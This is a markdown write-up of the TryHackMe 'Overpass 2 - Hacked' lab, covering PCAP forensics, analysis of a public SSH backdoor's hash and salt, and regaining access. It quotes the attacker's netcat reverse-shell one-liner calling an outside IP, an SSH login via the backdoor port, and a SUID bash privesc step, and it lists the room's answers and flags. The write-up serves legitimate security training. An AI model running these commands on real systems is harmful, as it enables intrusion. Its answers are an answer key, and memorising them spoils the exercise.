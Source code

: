 # [Overpass 2 - Hacked](https://tryhackme.com/r/room/overpass2hacked)

![Overpass2-Hacked](./images/Overpass2-Hacked.png)

## Task 1 - Forensics - Analyse the PCAP

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing Linux Fundamentals as a bare minimum.

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

### Answer the questions below

* What was the URL of the page they used to upload a reverse shell?

	`/development/`

	![task1-development](./images/task1-development.png)

* What payload did the attacker use to gain access?

	`exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`

	![task1-payload](./images/task1-payload.png)

* What password did the attacker use to privesc?
	
	`whenevernoteartinstant`

	![task1-password](./images/task1-password.png)

* How did the attacker establish persistence?

	`https://github.com/NinjaJc01/ssh-backdoor`

	![task1-backdoor](./images/task1-backdoor.png)

* Using the fasttrack wordlist, how many of the system passwords were crackable?

	`4`

	![task1-shadow](./images/task1-shadow.png)

	![task1-john](./images/task1-john.png)

## Task 2 - Research - Analyse the code

Now that you've found the code for the backdoor, it's time to analyse it.

### Answer the questions below

* What's the default hash for the backdoor?

	`bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

	* Clone backdoor file our machine
	
		`git clone https://github.com/NinjaJc01/ssh-backdoor`

	* Open file `main.go` 
	
		![task2-hash](./images/task2-hash.png)

* What's the hardcoded salt for the backdoor?

	`1c362db832f3f864c8c2fe05f2002a05`

	![task2-salt](./images/task2-salt.png)

* What was the hash that the attacker used? - go back to the PCAP for this!

	`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

	![task2-backdoor-hash(./images/task2-backdoor-hash.png)]

* Crack the hash using rockyou and a cracking tool of your choice. What's the password?

	`november16`

	* View hash format (Password + salt) 
	 
		![task2-hashpassword](./images/task2-hashpassword.png)

	* Crete file `attacke-hash.txt`
	
			![task2-cat](./images/task2-cat.png)

	* Crack hash file
	
		![task2-sha512](./images/task2-sha512.png)

		![task2-password](./images/task2-password.png)


## Task 3 - Attack - Get back in!

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

### Answer the questions below

* The attacker defaced the website. What message did they leave as a heading?

	`H4ck3d by CooctusClan`

	![task3-meesege](./images/task3-meesege.png)

* Using the information you've found previously, hack your way back in!

	![task3-port](./image/task3-port.png)

* What's the user flag?

	`thm{d119b4fa8c497ddb0525f7ad200e6567}`

	```
	ssh james@$IP -p 2222 -oHostKeyAlgorithms=+ssh-rsa
	```

	![task3-ssh](./images/task3-ssh.png)

* What's the root flag?

	`thm{d53b2684f169360bb9606c333873144d}`

	* Run `.suid_bash`

		`./.suid_bash -p`

	* Get the root flag
	
		![task3-root](./images/task3-root.png)
